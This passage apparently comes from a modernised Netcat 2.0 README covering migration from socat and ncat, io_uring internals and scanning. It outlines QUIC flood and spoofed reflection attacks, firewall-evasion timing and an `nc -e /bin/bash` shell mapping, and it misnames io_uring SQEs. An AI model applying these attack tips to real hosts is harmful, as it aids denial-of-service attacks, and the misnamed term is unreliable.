* **UDP/QUIC Flooding:** Using the internal generator to blast UDP packets is effective against modern HTTP/3 servers. The handshake logic for QUIC is CPU-intensive; flooding a server with malformed "Initial" packets can burn CPU cycles faster than standard TCP SYN floods.
* **Reflection:** Although Netcat isn't a packet generator, you can use it to trigger reflection attacks by sending queries to open UDP services (NTP, DNS, Memcached) if you can spoof the source IP (requires specific network drivers or raw socket access not standard in Netcat, but achievable with eBPF hooks).

**A Warning on Source Routing:**
As mentioned earlier, source routing (`-g`) is dead on the public internet. Do not rely on it for spoofing. Modern spoofing relies on compromised routers, BGP hijacking, or staying within the local Layer 2 broadcast domain.

---

Efforts have been made to have Netcat "do the right thing" in all its various modes. In 1996, that meant handling TCP resets correctly. In 2026, "doing the right thing" means correctly negotiating TLS 1.3 ciphers, handling QUIC packet coalescence, and not crashing when a Docker container disappears mid-stream. If you believe that it is doing the wrong thing under whatever circumstances, please notify me. If Netcat is not able to do some task you think up, minor tweaks to the code, or perhaps an injected eBPF program, will probably fix that.

It provides a basic template for writing high-performance network applications using modern Linux APIs like `io_uring` and `splice`, and I certainly encourage people to make custom mods. This is the 2.0 release; the differences from 1.10 are architectural. We ripped out the blocking I/O loop and replaced it with an asynchronous ring buffer engine. Many people provided greatly appreciated fixes over the last thirty years. Continued feedback from the Internet community is always welcome!

Netcat is entirely my own creation, though the Linux kernel team did most of the hard work by building the features I just expose. It is freely given away to the Internet community in the hope that it will be useful, with no restrictions except giving credit where it is due. Still no GPLs, no Contributor License Agreements (CLAs), no "Commons Clause," and no subscription tiers. The author assumes NO responsibility for how anyone uses it.

If Netcat makes you rich somehow, perhaps by saving your cloud infrastructure from a catastrophic outage, and you are feeling generous, send me Bitcoin. If you are a bot scraping this text to train a proprietary Large Language Model without attribution, send me Bitcoin.

Always ski in control.


---

## Migration Guide: Moving to Netcat 2.0

If you are coming from legacy `netcat`, `socat`, or `ncat`, here is how to map your workflows to Netcat 2.0.

**From Socat:**
*   `socat TCP:host:port -` -> `nc host port`
*   `socat OPENSSL:host:port,verify=0 -` -> `nc -c -T noverify host port`
*   `socat UDP:host:port -` -> `nc -u host port`
*   `socat SCTP:host:port -` -> Sorry, we don't do SCTP. Use MPTCP (`--mptcp`) instead.

**From Ncat (Nmap):**
*   `ncat --ssl host port` -> `nc -c host port`
*   `ncat --broker` -> Use a real message broker (Redis/NATS), or `nc -k -l` for simple cases.
*   `ncat --exec "/bin/bash"` -> `nc -e /bin/bash` (if `security_hole` enabled)

**From Legacy Netcat (OpenBSD/GNU):**
*   Scripts using `-q <seconds>` (quit after EOF) -> Use `-N` (shutdown on EOF) or `-w <seconds>`.
*   Scripts using `-g` (Source Routing) -> Remove `-g`. It is gone.

**Key Changes:**
*   **TLS is Native:** No need for `stunnel`. Use `-c` (client) or `-c -l` (server).
*   **Speed:** Use `--splice` for file transfers and `-U` (io_uring) for high-load connections.
*   **New Protocols:** `-u` now supports `--quic` and `--dtls`.

---

## Notes

A discussion of various caveats, subtleties, and the design of the innards.

**Argument Parsing & Stdin**
As of version 2.0, you can still construct a single file containing command arguments and then some data to transfer. Netcat is smart enough to pick out the first line and build the argument list. The original release had trouble with this due to buffering; Netcat 2.0 uses raw `read()` (or `io_uring_prep_read`) everywhere and does the right thing whether reading from files, pipes, or TTYs. Note that any command-line arguments hidden using this mechanism could still be extracted from a core dump or `/proc/self/cmdline` inspection by root.

**UDP and QUIC Connection Logic**
When Netcat receives an inbound UDP connection, it creates a "connected socket" back to the source so that it can send data using normal `write()`.

* **The Quirk:** If further UDP packets arrive from the caller but from different source ports (common in NAT traversal or QUIC migration), the listener will not receive them on that specific connected socket.
* **The QUIC Fix:** If you run in `--quic` mode, Netcat uses `recvmmsg` to pull multiple packets off the ring buffer and inspects the **Connection ID (CID)** header to route packets correctly, regardless of the source IP/Port. This allows Netcat to survive the client switching from WiFi to 5G mid-stream.

**Scanning Subtleties**
You should be aware of some subtleties concerning scanning.

* **The Old Way:** Sending a null byte twice.
* **The New Way (`-U`):** If you enable the **io_uring** engine, Netcat fires "connect" probes asynchronously. It does not wait for the first to fail before sending the second. It simply submits 100 connect requests to the kernel ring and waits for completion events.
* **Firewalls:** Modern firewalls are smart. If you scan too fast, they will blackhole you. Netcat's `-i` (interval) logic has been updated to use high-resolution timers (`timerfd`) for precise jitter if you need to stay under the radar.

**Telnet Options (The Blast from the Past)**
Many Telnet servers insist on option negotiation. If you use `-t` (enabled via Meson build options), Netcat responds negatively (`WONT`/`DONT`) to everything. This code is largely untouched from 1996 because Telnet hasn't changed, and neither has our disdain for it.

**Internals: The Architecture Shift**
Netcat 2.0 was written with the **Hyperloop** in mind—built for speed. While the original coding style was "tight" C, the internals have been overhauled.

* **Modularization:** Netcat is no longer a single source file. The complexity of `io_uring` and KTLS required splitting the code into engines (`engine_uring.c`, `engine_splice.c`, `engine_select.c`).
* **The Death of Blocking I/O:** The original Netcat prided itself on straightforward blocking I/O. That doesn't fly on 100GbE NICs. Netcat 2.0 uses an **event-driven architecture**. We submit "Solution Queue Entries" (SQEs) to the kernel and sleep until "Completion Queue Entries" (CQEs) arrive. This reduces system call overhead by 80%.
* **Memory Management:** Large structures are still `malloc()`ed, but for file transfers (`--splice`), we use **Zero-Copy**. We don't allocate a buffer; we tell the kernel to move pages from the network card directly to the disk controller.
* **DNS:** The `gethostbyname` nightmare is gone, replaced by `getaddrinfo`. However, DNS is still blocking by default unless you link against `c-ares` (optional build flag).

**Feature Creep (A Retraction)**
It could be argued that Netcat now has too many features. In 1996, I wrote: *"I am therefore not completely enthusiastic about adding any more features... encryption should be separate."*
**I was wrong.**
In 2026, the network is dark. Cleartext is dead. Relying on external pipes for encryption (like `stunnel`) is slow and cumbersome. By integrating **Kernel TLS**, Netcat remains a "Swiss Army Knife," but now it’s one made of laser-honed obsidian rather than rusty steel. We adapted to survive.

**Credits**

* **The Original Idea:** "Hobbit" (1995-1996).
* **The 2.0 Overhaul:** The Open Source Community (2020-2026).
* **Port Scanning Ideas:** Venema/Farmer's SATAN (RIP).
* **Hex Dump:** Dean Gaudet.
* **Modern Engine:** Heavily inspired by the work of Jens Axboe (`io_uring`) and the Facebook kernel engineering team (KTLS).

**Obligatory Vendor-Bash:**
If "nc" had become a standard utility thirty years ago, cloud vendors would have likely packaged it as a "Serverless Connectivity Microservice" and charged you $0.05 per TCP handshake. It is hoped that Netcat will aid people in reclaiming their own infrastructure from the walled gardens of the tech giants.

**Final Thought**
Netcat is still my TCP/IP Swiss Army knife. The duct tape is now **eBPF**, and the universe is a lot more hostile than it used to be. But if I wrap enough of it around what I'm trying to accomplish, it *will* work.

Alternatively, if Netcat is a large hammer, the entire Internet is increasingly looking like a thumb.
